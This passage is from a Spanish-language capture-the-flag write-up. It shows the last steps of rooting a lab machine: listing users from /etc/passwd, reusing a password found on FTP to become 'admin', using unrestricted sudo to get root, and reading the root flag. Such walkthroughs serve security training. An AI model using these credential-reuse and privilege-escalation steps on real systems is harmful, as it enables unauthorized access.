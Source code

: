 ## Escalate user admin

Si listamos los usuarios que hay en el sistema veremos lo siguiente:

```shell
cat /etc/passwd | grep "/bin/*"
```

Info:

```
root:x:0:0:root:/root:/bin/bash
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
mwheeler:x:1001:1001::/home/mwheeler:/bin/bash
admin:x:1002:1002::/home/admin:/bin/sh
```

Vemos que esta el usuario `admin` por lo que veremos a probar a reutilizar la contraseña que encontramos en el `FTP`.

```shell
su admin
```

Metemos como contraseña `banana` y veremos que somos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for admin on 9de778984302:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User admin may run the following commands on 9de778984302:
    (ALL) ALL
```

Vemos que podemos ejecutar cualquier cosas como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo su
```

Y con esto veremos que somos `root`, por lo que habremos terminado la maquina y leeremos la flag de `root`.

> flag.txt

```
This is the root flat - Fl@ggR00t -
```
